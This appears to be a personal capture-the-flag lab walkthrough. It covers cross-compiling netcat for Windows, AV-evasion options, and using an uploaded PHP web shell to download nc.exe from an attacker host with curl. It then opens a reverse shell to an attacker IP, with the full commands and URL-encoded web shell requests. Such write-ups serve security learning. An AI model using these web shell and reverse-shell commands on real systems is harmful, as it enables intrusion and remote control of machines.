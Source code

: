 
Now we have a shell payload which for the time being is not detected by the AV so will compile it using netcat and reverse shell

We have serveral options:
- PowerShell but it may get detected
- PHP reverse shell it may also get picked up
- Msfvenom may generate a distinctive we could use [Veil Framework](https://www.veil-framework.com/) or Shelter
- Uploading netcat is the quickest and easy option.


What is cross-compilation techniques ?_?
The idea is to compile source code into a working program to run on a different platform.
It's an cross compilation skill although in many ways it's preferable to avoid it.

Always try to compile code into an environment as close to the target environment as possible.
Cross-compile x64 windows programs on kali using the mingw-64 package.

It's a big package but just like gcc used to compile binaries on Linux, we can use the mingw compilers to compile windows binaries.

Will run make to build the binary the correct compiler will be used to generate a x64 windows
executable. Note there will be a lot of warnings generated by the compiler.

We have to download the nc.exe from the github and compile it on kali linux.
https://github.com/int0x33/nc.exe/
```
CC=x86_64-w64-mingw32-gcc
```

MakeFile:
![[Pasted image 20240114204304.png]]


Package:
```
sudo apt install mingw-w64
```

![[Pasted image 20240114204927.png]]

Note we have to remove or mv the already compiled binary in order for this to get working.


```
http://10.200.85.100/resources/uploads/shell-sardarji.jpeg.php?wreath=certutil.exe
```
![[Pasted image 20240120233910.png]]
![[Pasted image 20240114230338.png]]

Cert-util is a default Windows tool that is used to (amongst other things) download CA certificates. This also makes it ideal for file transfers, _but_ Defender flags this as malicious.

```
python3 -m http.server 80
```

As the curl command returned nothing when we were running it on the command line but
```
curl http://10.50.86.241/nc.exe -o c:\\windows\\temp\\nc-sardarji.exe
```
![[Pasted image 20240114231420.png]]

Now we have everything we want for a reverse shell
So will set up a listner and we are good to go
```
nc -lvnp 4242
```

```
powershell.exe c:\\windows\\temp\\nc-sardarji.exe 10.50.86.241 4242 -e cmd.exe
```

The site got hung which means we got a shell
![[Pasted image 20240114231903.png]]

_**Note:** In order for this to work we had to wrap the netcat command inside a powershell process to keep it from exiting early._

```
http://10.200.85.100/resources/uploads/shell-sardarji.jpeg.php?wreath=powershell.exe%20c:\\windows\\temp\\nc-sardarji.exe%2010.50.86.241%204242%20-e%20cmd.exe
```
